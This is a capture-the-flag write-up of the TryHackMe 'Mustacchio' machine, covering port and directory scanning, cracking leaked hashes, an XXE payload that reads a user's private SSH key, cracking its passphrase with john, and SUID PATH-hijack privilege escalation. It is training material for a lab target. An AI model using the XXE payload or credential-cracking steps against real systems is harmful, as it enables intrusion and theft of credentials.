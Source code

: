 # Mustacchio V2
Easy boot2boot machine

## Recon
### Nmap Scan
At the commencement of each CTF challenge, our initial step consistently involves conducting an nmap scan.

```
sudo nmap -sC -sV -O -T4 10.10.41.60 -vv -p- -oG all
```

![Nmap Scan](/THM/images/nmap.PNG)

As evident from our findings, two ports, specifically port 80 and port 8765, are open and host a website.

### Gobuster Scan
Since there is a website that is being hosted, we will then run 
```
gobuster dir -t 100 --url http://10.10.41.60 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt
``` 
as part of our scan to find any hidden directories.

While waiting for the gobuster scan to finish scanning the directories, i went to the website to find for any hints to continue with the challenge.

![Website](/THM/images/website.PNG)

However i did not find anything that is useful to continue the challenge.

Once the Gobuster scan had completed, I returned to the terminal to review the results.

![Gobuster Scan](/THM/images/gobuster.PNG)

This is where i traversed around the directory that was discovered by the Gobuster and found something interesting in the custom/js folder.

![custom/js folder](/THM/images/custom.PNG)

I found the file called **"users.bak"** which immediately alarmed me that it could be an backup file that contains database information.

After downloading the file, this is where i ran 
```
file users.bak
```

![users.bak strings](/THM/images/usersbak.PNG)

which confirms my doubt that it was a sqlite backup file.

After that i ran **"sqlitebrowser"** and drop the file inside the newly opened tab.

![SQLite](/THM/images/SQLite.PNG)

This is where i found a username and password in hash format, so i used crackstation.net to crack the password.

![user](/THM/images/user.PNG)

![crack](/THM/images/crack.PNG)

### Port 8765
From the original website that is hosted at port 80, i couldn't use the login details that i have found from the previous recon so i decided to go to port 8765.

![login](/THM/images/login.PNG)

Ohhh shit, from here i found a login page and decided to give the username and password that i have gathered during the previous recon.

![successful login](/THM/images/successful.PNG)

It worked!

I then chose to spend some time exploring the website, during which I came across the following information.

![view source](/THM/images/source.PNG)

At this juncture, I opted to download the file (/auth/dontforget.bak) from the website and inspect its contents, where I subsequently uncovered...

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>   
```

I made the decision to experiment with the form both by submitting it without any input and by using the input I had identified in the file.

![empty](/THM/images/emptyinput.PNG)

![xml](/THM/images/xmlinput.PNG)

At this point, I initiated a Google search to investigate XML vulnerabilities, which led me to discover a vulnerability known as XML External Entity (XXE) Processing.

## Exploitation
Recalling what we had discovered while examining the homepage
```
Barry, you can now SSH in using your key!
```

I decided to give the payload a try
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>  
```

![xxe](/THM/images/xxe.PNG)

It worked!

I proceeded to copy the RSA key using the command <mark style="background-color:grey">echo [rsa_key] > barry_id_rsa</mark>. It was apparent that the key was encrypted. To decipher the password, I employed the following command
```
ssh2john barry_id_rsa > for_john
john --wordlist=/usr/share/wordlists/rockyou.txt forjohn
```

![john cracked](/THM/images/cracked.PNG)

Subsequently, I utilized the "id_rsa" file along with the cracked passphrase to establish an SSH connection to the target machine.

![ssh](/THM/images/ssh.PNG)

## Privilege Escaltion
### Potential methods for privilege escalation
I initiated a series of commands to assess the system for potential vulnerabilities.
```
"id" to check if the user was part of the LXC/LXD group.
"uname -a" to examine the kernel version and assess the system for potential kernel exploits
```

### SUID for privilege escalation
When I executed the command
```
find / -perm -u=s -type f 2>/dev/null
```

I came across an intriguing file that had the capability to run as a privileged user
![suid](/THM/images/suid.PNG)

I navigated to that directory and tried to find out what the file does.

At this point, I discovered that one of the commands within the program was not utilizing an absolute path.

![attack](/THM/images/attack.PNG)

This reminded me of the technique mentioned in the https://tryhackme.com/room/linuxprivesc, where a similar method was discussed for privilege escalation.

### Creating payload

![payload](/THM/images/payload.PNG)

Setting path for payload to execute

![path](/THM/images/path.PNG)

Execute the payload

![execute](/THM/images/root.PNG)

Viola, now you are root.

## Conclusion
This room provided me with an opportunity to apply the knowledge and skills I had been honing over the past two months, particularly in the areas of web exploitation, basic reverse engineering(strings), basic privilege escalation. With being able to pick up knowledge and skills on XML external entity (XXE) injection. Thank to zyeinn for creating the room.